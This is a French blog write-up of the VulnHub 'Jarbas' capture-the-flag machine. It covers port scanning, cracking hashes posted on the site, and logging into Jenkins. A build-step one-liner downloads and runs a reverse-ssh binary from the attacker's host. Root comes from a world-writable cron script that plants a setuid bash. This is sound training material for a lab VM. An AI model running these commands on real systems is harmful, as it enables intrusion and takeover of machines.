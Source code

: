 ```yaml
---
title: "Solution du CTF Jarbas de VulnHub"
tags: [CTF,VulnHub]
---
```


[Jarbas](https://www.vulnhub.com/entry/jarbas-1,232/), un CTF proposé sur VulnHub, est un peu le cousin germain de [Jeeves de HackTheBox](https://github.com/devl00p/blog/blob/main/ctf_writeups/Solution%20du%20CTF%20Jeeves%20de%20HackTheBox.md).

Le scénario est d'ailleurs quasi identique : sur le port 80 on trouve une copie de l'ancien moteur de recherche `Ask.com`.

```
Nmap scan report for 192.168.56.70
Host is up (0.00025s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 28bc493c6c4329573cb8859a6d3c163f (RSA)
|   256 a01b902cda79eb8f3b14debb3fd2e73f (ECDSA)
|_  256 57720854b756ffc3e6166f97cfae7f76 (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Jarbas - O Seu Mordomo Virtual!
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
3306/tcp open  mysql   MariaDB (unauthorized)
8080/tcp open  http    Jetty 9.4.z-SNAPSHOT
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
```

Sur le port 80 on nous offre directement des hashs pourtant ce n'est pas encore noël.

```
Creds encrypted in a safe way!

tiago:5978a63b4654c73c60fa24f836386d87
trindade:f463f63616cb3f1e81ce46b39f882fd5
eder:9b38e2b1e8b12f426b0d208a7ab6cb98
```

J'ai envoyé tout ça sur crackstation qui a trouvé respectivement :

```
italia99
marianna
vipsu
```

Sur le port 8080 se trouve un Jenkins et les identifiants `eder` / `vipsu` permettent de s'y.

Du coup je ne m'attarde pas trop sur les étapes à suivre car elles sont déjà décrites dans le `Jeeves` : il faut créer un nouveau projet, aller dans sa configuration puis dans l'onglet `Build` puis sur la partie `Exécuter un script shell`.

Là on saisit de quoi obtenir un shell. Comme les ports ne sont pas filtrés sur la VM je rappatrie et fait tourner un reverse-ssh qui fonctionnera comme un serveur SSH mais sur le port 31337.

```bash
cd /tmp;wget http://192.168.56.1/reverse-sshx64;chmod +x reverse-sshx64;nohup ./reverse-sshx64
```

Pour m'y connecter j'utilise le client SSH de mon OS. Il y a un mot de passe par défaut (`letmeinbrudipls`) et j'obtiens un accès avec le compte `jenkins`.

Il y a une entrée dans la crontab :

`*/5 * * * * root /etc/script/CleaningScript.sh >/dev/null 2>&1`

Et ce script qui tourne en root est word-writable, quelle aubaine :p 

`-rwxrwxrwx. 1 root root 50 Apr  1  2018 /etc/script/CleaningScript.sh`

Je rajoute des commandes dedans pour copier `bash` vers `/tmp` et le rendre setuid root. Après quelques minutes c'est prêt, plus qu'à déguster :

```bash
bash-4.2$ /tmp/bash -p
bash-4.2# id
uid=997(jenkins) gid=995(jenkins) euid=0(root) groups=995(jenkins) context=system_u:system_r:initrc_t:s0
bash-4.2# cd /root
bash-4.2# ls
flag.txt
bash-4.2# cat flag.txt
Hey!

Congratulations! You got it! I always knew you could do it!
This challenge was very easy, huh? =)

Thanks for appreciating this machine.

@tiagotvrs
```

Forcément, avec ma connaissance de la version de HTB, ce CTF était du tout préparé, plus qu'à enfourner au micro-ondes !
